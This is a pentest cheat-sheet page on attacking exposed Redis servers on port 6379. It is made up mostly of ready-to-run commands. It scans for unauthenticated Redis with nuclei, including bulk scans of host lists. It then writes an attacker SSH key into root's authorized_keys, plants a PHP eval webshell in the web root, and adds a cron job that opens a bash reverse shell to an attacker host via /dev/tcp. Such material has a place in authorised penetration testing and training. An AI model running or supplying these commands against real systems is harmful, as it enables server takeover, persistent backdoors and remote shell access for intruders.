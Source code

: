 # 6379 - Redis

## Potential Risks

### Unauthorized Access

```bash
# https://github.com/yuukisec/iPoCs
# RHOST=remoteHost; RPORT=6379
nuclei -t ~/ipocs -id redis-unauth -u $RHOST:$RPORT

# Bulk testing
# RHOST_LIST=hosts.txt
nuclei -t ~/ipocs -id redis-unauth -l $RHOST_LIST -c 100 -bs 100
```

## Exploitation

### Write File

```bash
# Method 1: Write SSH public key
# RHOST=remoteHost; RPORT=
# Step 1: Generates an SSH key pair
if [ -f /tmp/.ssh_key ]; then; rm /tmp/.ssh_key /tmp/.ssh_key.pub; fi
ssh-keygen -t rsa -b 2048 -N "" -f /tmp/.ssh_key
(echo -e "\n\n"; awk '{print $1,$2;}' /tmp/.ssh_key.pub; echo -e "\n\n") > /tmp/.ssh_key_redis.pub
# Step 2: Upload SSH public key
cat /tmp/.ssh_key_redis.pub | redis-cli -h $RHOST -p $RPORT -x set santa
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /root/.ssh/ # The alternative is `CONFIG SET DIR /etc/ssh/`
> CONFIG SET DBFILENAME "authorized_keys"
> SAVE
# Step 3: Connect SSH using the private key
ssh -i /tmp/.ssh_key root@localhost

# Method 2: Write WebShell
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /var/www/html
> CONFIG SET DBFILENAME santa.php
> SET santa "\n\n\n\n<?php @eval($_REQUEST['santa']);?>\n\n\n\n"
> SAVE

# Method 3: Write Linux crontab
redis-cli -h $RHOST -p $RPORT
> CONFIG SET DIR /etc/cron.d
> CONFIG SET DBFILENAME santa_revs
> SET santa "\n\n\n\n* * * * * root bash -i >& /dev/tcp/$EHOST/$EPORT 0>&1\n\n\n\n"
> SAVE
```

For more information, please refer to page [OOB > Reverse Shell > crontab (unix-only)](../../one-page-for-subject/out-of-band-technology.md#reverse-shell).

### GUI Tools

* [Another Redis Desktop Manager](https://goanother.com/cn/)
* [https://github.com/SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT)

